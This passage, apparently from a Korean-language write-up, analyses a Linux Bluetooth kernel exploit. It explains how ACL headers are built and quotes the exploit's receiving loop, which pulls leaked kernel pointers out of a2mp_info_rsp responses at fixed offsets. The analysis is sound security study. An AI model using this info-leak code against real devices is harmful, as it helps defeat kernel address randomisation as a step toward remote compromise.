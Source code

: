 ```c++
		break;
	case HCI_AMP: // 이 case문에 걸림
		hci_add_acl_hdr(skb, chan->handle, flags);
		break;
	default:
		bt_dev_err(hdev, "unknown dev_type %d", hdev->dev_type);
		return;
	}

	list = skb_shinfo(skb)->frag_list; // 패킷 전송을 위한 스케쥴러 등록

	// ...
}
```
`hci_queue_acl()` 함수는 패킷의 type을 나타내는 영역에 `HCI_ACLDATA_PKT` 데이터를 삽입하고, `hci_add_acl_hdr()` 함수를 통해 ACL Header 부분을 채운다. 헤더를 추가하는 부분은 아래와 같다.
```c++
static void hci_add_acl_hdr(struct sk_buff *skb, __u16 handle, __u16 flags)
{
	// ...

	hdr->handle = cpu_to_le16(hci_handle_pack(handle, flags));
	hdr->dlen   = cpu_to_le16(len);
}
```
이후 실제로 패킷을 전송한다. 최종적으로 보내는 패킷의 모습은 다음과 같다.

![image](https://user-images.githubusercontent.com/44149738/133655332-1c17dcc1-ef59-461b-a2de-6e28fdc6f32c.png)


## Analysis #6 응답 데이터 수신
아래는 exploit code에 나와있는 수신부 코드이다.
```c++
for (int i = 0; i < 64; i++) {
  char buf[1024] = {0};
  size_t buf_size = read(hci_socket, buf, sizeof(buf));
  if (buf_size > 0 && buf[0] == HCI_ACLDATA_PKT) {
    l2cap_hdr *l2_hdr = (l2cap_hdr *)(buf + 5);
    if (btohs(l2_hdr->cid) == AMP_MGR_CID) {
      uint64_t leak1 = *(uint64_t *)(buf + 13) & ~0xffff;
      uint64_t leak2 = *(uint64_t *)(buf + 21);
      uint16_t leak3 = *(uint64_t *)(buf + 29);
      printf("[+] Leaked: %lx, %lx, %x\n", leak1, leak2, leak3);
      break;
    }
  }
}
```
주요 line 위주로 분석해보자.
```c++
if (buf_size > 0 && buf[0] == HCI_ACLDATA_PKT)
```
`buf[0]`가 `HCI_ACLDATA_PKT`임을 확인하여 위에서 분석한 ACL 응답 로직을 통해 송신된 패킷인지 확인할 수 있다.
```c++
l2cap_hdr *l2_hdr = (l2cap_hdr *)(buf + 5);
```
`HCI_ACLDATA_PKT`가 맞다면 우리가 알고있는 구조로 데이터가 수신되었을 것이기 때문에 `l2cap_hdr` 부분은 `type`과 `hci_acl_hdr` 구조체를 건너뛴 `buf + 5`에 위치하게 될 것이다.
```c++
uint64_t leak1 = *(uint64_t *)(buf + 13) & ~0xffff;
uint64_t leak2 = *(uint64_t *)(buf + 21);
uint16_t leak3 = *(uint64_t *)(buf + 29);
```
결론적으로 우리가 수신하길 원하는 `a2mp_info_rsp` 구조체는 `l2cap_hdr`로부터 8bytes 만큼 뒤에 위치하기 때문에 `buf + 13`에 위치하게 된다. 이를 기준으로 leak1, 2, 3 데이터는 각각 다음과 같은 필드를 포함한다.